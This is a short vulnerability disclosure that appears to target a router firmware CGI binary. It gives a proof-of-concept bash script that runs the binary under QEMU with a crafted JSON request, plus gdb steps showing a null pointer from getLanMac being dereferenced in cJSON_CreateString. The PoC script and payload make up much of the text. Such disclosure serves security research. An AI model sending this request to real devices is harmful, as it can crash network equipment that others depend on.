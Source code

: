 

## poc

### getLanMac.sh
```bash
#!/bin/bash
chroot ./ ./qemu-mips-static\
        -E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
        ./web_cste/cgi-bin/cstecgi_410F78.cgi  < getLanMac.json
```

### getLanMac.json
```json
{
    "topicurl" : "UploadCustomModule/getSysStatusCfg",
}
```

## Reproduce
```bash
./getLanMac.sh
```
```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi.cgi
```
When `getIfMac` return -1, `getLanMac` will return a null pointer.
![alt text](image.png)

Tracing execution path from this point, we can trace that the null pointer is passed into `cJSON_CreateString` function.
![alt text](image-3.png)

![alt text](image-6.png)

In the `cJSON_CreateString`, this null pointer will be dereferenced.

![alt text](image-7.png)



